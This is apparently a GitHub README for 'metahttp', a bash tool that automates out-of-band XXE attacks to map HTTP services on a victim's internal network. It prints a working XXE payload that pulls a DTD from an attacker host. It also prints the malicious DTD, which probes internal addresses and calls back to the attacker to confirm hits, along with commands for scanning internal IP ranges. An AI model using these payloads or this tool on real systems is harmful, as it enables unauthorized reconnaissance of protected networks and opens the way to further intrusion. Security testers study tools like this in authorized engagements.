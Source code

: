 # metahttp

A bash script that automates the scanning of a target network for HTTP resources through XXE

<p align="center">
  <img width="680" src="img/meta.gif"/>
</p>

## How it works

Initially, metahttp hosts an HTTP server that is responsible to deliver the payload DTDs to the target application.

Then the attacker triggers the XXE to have the target server load the DTDs from the server hosted by metahttp.

For example, by having the victim application parse the following XML document:
```xml
<!DOCTYPE r SYSTEM "http://attacker_host:8080/serveme.dtd"><r></r>
```

The script receives the request and responds with the following DTD:
```xml
<!ENTITY % test_target SYSTEM '${target_protocol}://${target_ip}:${target_port}${target_path}'>
<!ENTITY % callback SYSTEM 'http://${server_hostname}:${http_callback_port}/${callback_path_prefix}${target_ip}_${target_port}'>
<!ENTITY % trigger '%test_target;%callback;'>
%trigger;
```

After receiving the DTD, the XML parser will attempt to substitute the `trigger` parameter entity with its value.
The `trigger` parameter entity includes both `test_target` and `callback`. Now here we depend on the fact that XML parsers will normally process the parameter entities one by one. In case the substitution of an entity fails, they will not proceed with the substitution of the subsequent entities. So now, if we receive a callback to our server, it means that the substitution of the `callback` parameter entity was initiated which with its turn means that the resource pointed by the `test_target` exists.

The above procedure is repeated for all the provided hosts/ports. Since there might be a big number of hosts/ports combinations, the step where the attacker has to trigger the XXE on the target server is automated  through the use of the "dispatcher". The dispatcher is an executable passed to metahttp through the -x option and is responsible for triggering the XXE on the target server. Couple of examples are provided in the dispatcher_examples folder.

## Usage
1. Local testing with a Java app on docker:
```bash
./metahttp.sh -T <(echo dockerhost) -p 80 -x ./dispatcher_examples/docker_java.sh -a /
```

2. Scanning the internal network of a target for a server hosting the resource /path/unique/to/a/service:
```bash
./metahttp.sh -t 10.10.0.0/24,10.20.0.0-10.20.0.15 -p 80,8000-8080,8983 -x ./dispatcher_examples/target_curl.sh -a /path/unique/to/a/service
```

3. More information on the options
```bash
./metahttp.sh --help
```
